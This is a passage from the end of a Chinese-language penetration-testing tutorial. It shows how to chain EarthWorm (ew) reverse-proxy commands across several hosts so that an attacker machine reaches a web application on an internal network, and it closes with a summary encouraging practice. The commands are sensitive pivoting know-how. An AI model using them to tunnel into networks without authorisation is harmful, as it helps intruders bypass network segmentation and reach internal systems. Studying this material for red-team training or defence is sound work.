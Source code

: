 代理通道架设完毕，访问V1的1080相当于访问V3的8080端口。

A1浏览器上访问[http://139.x.x.x](http://139.x.x.x):1080，即访问V3上的内网web应用。

**反向代理：**

在A1执行，本地启动流量转发，将来自外部1080端口的流量转发到本地的8888端口，并等待目标反弹连接：

```bash
./ew -s lcx_listen -l 1080 -e 8888

```

在V1执行，将A1的8888端口与V2的9999端口绑定，建立socks5通道：

```bash
./ew -s lcx_slave -d 120.x.x.x -e 8888 -f 10.10.2.111 -g 9999

```

在V2执行，启动流量转发，将V2的9999端口与V3的8080端口绑定，建立socks5通道：

```bash
./ew -s lcx_tran -l 9999 -f 10.3.10.111 -g 8080

```

代理通道架设完毕，访问A1的1080相当于访问V3的8080端口。

A1浏览器上访问[http://127.0.0.1](http://127.0.0.1):1080，即访问V3上的内网web应用。

## 0x04 总结

实战中的多样化场景可能更加复杂也可能比较简单，无法一一阐述，篇章尽量覆盖常见类型场景，描述了4种场景下ew的基本使用。

内容都是基础，工具在使用上也无太多难处，关键在于**弄清楚实战中目标内网数据流向**，把复杂的大场景拆分成若干个小场景，使问题变得简单。

纸上得来终觉浅，绝知此事要躬行，多实操多思考，方能不断进步。